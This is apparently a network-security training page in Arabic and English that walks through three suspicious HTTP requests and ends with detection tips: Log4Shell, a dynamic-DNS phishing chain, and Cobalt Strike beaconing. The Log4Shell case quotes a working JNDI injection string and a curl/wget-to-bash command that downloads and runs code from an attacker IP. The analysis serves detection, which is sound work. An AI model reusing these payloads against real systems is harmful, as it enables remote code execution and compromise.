## Case Studies: Malicious or Benign?

### Case 1: Log4Shell Attack (CVE-2021-44228)

**الـ Request:**
```http
GET /${jndi:ldap://45.155.205.233:12344/a} HTTP/1.1
User-Agent: ${jndi:ldap://...}
Referer: ${jndi:ldap://...}
```

**التحليل:**
- الـ URL والـ User-Agent والـ Referer كلهم فيهم `jndi:ldap://`
- ده محاولة Exploit للـ Apache Log4j vulnerability
- فيه Base64 encoded commands:
```bash
(curl -s 45.155.205.233:5874/victim_ip||wget -q -O- 45.155.205.233:5874/victim_ip)|bash
```

**الحكم: ⛔ MALICIOUS**

---

### Case 2: Dynamic DNS Redirect Chain

**الـ Request:**
```http
GET /[encoded_path] HTTP/1.1
Host: download2.go.dyns.org
Referer: http://fiscal.servebbs.com
```

**التحليل:**
- الـ Referer هو Dynamic DNS domain (servebbs.com)
- الـ Host كمان Dynamic DNS (dyns.org)
- الـ Path مشفر بـ URL encoding
- النتيجة: Redirect لـ `fiscal.homelinux.com/Nota.zip` - Dynamic DNS تالت!

**الحكم: ⛔ MALICIOUS — Phishing download chain**

> [!TIP]
> كن دايماً منتبه لـ Dynamic DNS domains زي: servebbs.com, dyns.org, homelinux.com, dyndns.org. دي كتير بتتستخدم في الهجمات.

---

### Case 3: Cobalt Strike BEACON

**الـ Request:**
```http
GET /jquery-3.3.1.min.js HTTP/1.1
Host: klycnmik.com
Cookie: [encrypted C2 data]
```

**التحليل:**
- بيطلب jQuery بشكل متكرر من Domain غريب
- الـ Traffic مش على HTTPS
- الـ Cookie بتحتوي على Encrypted C2 data
- الـ Domain مش معروف ولا موثوق

**الحكم: ⛔ MALICIOUS — Cobalt Strike BEACON**

> [!NOTE]
> الـ Cobalt Strike BEACON ممكن يتنكر في أي شكل. لو شفت jQuery أو ملفات مشهورة بتتحمل من Domain غريب بشكل متكرر — ابحث أكتر.

---

## Summary

### النقاط الأساسية

- **HTTP بيستخدم في كل مراحل الهجوم** — من الـ Delivery للـ Exfiltration
- **ابدأ بالأوتوماتيكي ثم الـ Manual** — وفر وقتك للحالات الصعبة
- **Safe Domain لا يعني Safe URL** — الـ Reputation check على الـ URL مش الـ Domain بس
- **الـ User-Agent قابل للتزوير** — لكن غالباً بيفضح الـ Malware
- **الـ Cookie ممكن يكون C2 Channel** — ابص عليه كويس
- **Base64 مش Encryption** — حاول تعمله Decode دايماً
- **Beaconing = Repeated Periodic Requests** — استخدم RITA أو SIEM Rules للكشف
- **Naked IP في الـ Host Header = Red Flag**
- **TLS Decryption ضروري** للـ Full Visibility
- **JA3 يساعدك حتى بدون Decryption**
- **TLS 1.3 وـ ECH هيعوروا الـ Visibility** — تخطط مبكر


